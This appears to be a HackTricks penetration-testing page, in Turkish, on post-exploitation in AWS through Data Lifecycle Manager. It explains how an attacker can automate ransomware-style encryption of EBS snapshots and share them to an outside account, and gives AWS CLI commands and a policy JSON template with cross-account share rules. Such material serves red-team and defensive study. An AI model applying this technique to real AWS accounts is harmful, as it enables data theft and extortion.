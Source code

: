 # AWS - DLM Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Veri Yaşam Döngüsü Yöneticisi (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

Bir fidye yazılımı saldırısı, mümkün olduğunca çok EBS hacmini şifreleyerek ve ardından mevcut EC2 örneklerini, EBS hacimlerini ve anlık görüntüleri silerek gerçekleştirilebilir. Bu kötü niyetli etkinliği otomatikleştirmek için, başka bir AWS hesabından bir KMS anahtarı ile anlık görüntüleri şifreleyerek ve şifrelenmiş anlık görüntüleri farklı bir hesaba aktararak Amazon DLM kullanılabilir. Alternatif olarak, şifreleme olmadan anlık görüntüleri yönettikleri bir hesaba aktarabilir ve ardından orada şifreleyebilirler. Mevcut EBS hacimlerini veya anlık görüntüleri doğrudan şifrelemek kolay olmasa da, yeni bir hacim veya anlık görüntü oluşturarak bunu yapmak mümkündür.

Öncelikle, örnek ID'si, hacim ID'si, şifreleme durumu, ekleme durumu ve hacim türü gibi hacimlerle ilgili bilgileri toplamak için bir komut kullanılacaktır.

`aws ec2 describe-volumes`

İkincisi, yaşam döngüsü politikasını oluşturacaktır. Bu komut, belirli hacimlerin her gün belirli bir saatte otomatik olarak anlık görüntülerini alan bir yaşam döngüsü politikası kurmak için DLM API'sini kullanır. Ayrıca anlık görüntülere belirli etiketler uygular ve hacimlerden anlık görüntülere etiketleri kopyalar. policyDetails.json dosyası, hedef etiketler, program, şifreleme için isteğe bağlı KMS anahtarının ARN'si ve anlık görüntü paylaşımı için hedef hesap gibi yaşam döngüsü politikasının ayrıntılarını içerir; bu bilgiler kurbanın CloudTrail günlüklerinde kaydedilecektir.
```bash
aws dlm create-lifecycle-policy --description "My first policy" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```
Politika belgesi için bir şablon burada görülebilir:
```bash
{
"PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "ExampleKey",
"Value": "ExampleValue"
}
],
"Schedules": [
{
"Name": "DailySnapshots",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "SnapshotCreator",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "CostCenter",
"Value": "Finance"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "HOURS",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "HOURS"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "DAYS"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "DAYS"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
{{#include ../../../banners/hacktricks-training.md}}
